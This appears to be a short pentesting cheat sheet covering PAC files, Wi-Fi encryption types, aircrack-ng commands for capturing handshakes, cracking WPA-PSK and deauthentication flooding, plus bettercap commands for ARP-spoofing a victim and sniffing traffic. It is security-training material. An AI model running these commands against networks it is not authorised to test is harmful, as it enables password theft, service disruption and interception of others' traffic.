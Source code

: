 ## Proxy auto-configuration (PAC)

- Create the PAC proxy.pac file
- Store it on a webserver
- Go to browser to download it in http://example.com/proxy.pac

## WIFI

Encription methods:
- WEP - Wired Equivalent Privacy - uses RC4
- WPA - Wi-Fi Protected Access - uses TKIP
- WPA2 - uses CCMP
- WPA3

Authenticathion methods:
- PSK - Pre Shared Key - uses a password, common in private LANs
- EAP - Extensible Authentication Protocol - uses an authentication server, common in enterprises

```bash
sudo airmon-ng start|stop|check INTERFACE

sudo airmon-ng start wlan0

sudo airodump-ng --bssid BSSID --channel CHANNEL -w FILE_NAME

sudo aircrack-ng -a [1/WEP, 2/WPA-PSK] -b BSSID -w FILE_NAME_WORDLIST FILE_NAME

sudo aireplay-ng --deauth 100 -a BSSID INTERFACE

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode monitor
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode managed
sudo iw dev wlan1 set type managed
sudo ip link set wlan1 up
```

## Man in th Middle (MITM)

### bettercap

```bash
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets VICTIM MAC or IP
arp.spoof on
net.sniff on
```
